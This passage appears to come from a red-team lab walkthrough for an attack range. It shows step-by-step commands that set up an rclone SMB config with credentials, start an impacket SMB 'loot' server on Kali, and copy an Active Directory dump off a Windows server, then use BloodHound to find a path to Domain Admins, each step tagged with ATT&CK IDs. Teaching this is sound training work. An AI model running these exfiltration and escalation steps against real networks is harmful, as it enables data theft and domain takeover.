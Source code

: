 > [!IMPORTANT]
> When saving the file in Notepad select "Save as" and "Save as type: All files" so no .txt is appended to the filename.

Then we'll need to create a config file for `rclone` and put it in `C:\Temp\r.conf`:

**Step 14**
```
[ss]
type = smb
host = 10.0.1.30
user = user
pass = KN_sSidIRaFo_cmcZ_YNa5o8SLfyli8
```
ATT&CK Techniques: `T1105` `T1564` `T1048`

In the meantime, on our Kali machine, we will create a `loot` folder and start an SMB server with it:

```bash
[KALI:bash] mkdir loot
[KALI:bash] impacket-smbserver -smb2support -username user -password pass123 data ./loot
```

Now that SMB server is running and our `rclone` is ready, let's copy the AD dump file from Windows to Kali:

**Step 15**
> [!IMPORTANT]
> Replace \<c.zip-filename\> with the actual name of the ZIP file created

```PowerShell
[ITSERVER:PowerShell] C:\Temp\r.exe --config C:\Temp\r.conf copy C:\Temp\<c.zip-filename> ss:data --no-check-dest
```
ATT&CK Techniques: `T1048`

## Part 2

### Import AD dump into Bloodhound and find path to Domain Admins

Now you will need to go to `http://localhost:8080` in your browser, login as `admin` user with your attack range password.

After logging into Bloodhound, go to Administration section and File Ingest and import the ZIP file into it.

We mark our AD user as compromised and then we find a path from the compromised principal to Domain Admins

![Bloodhound Domain Admins privilege escalation path](images/bloodhound.png)

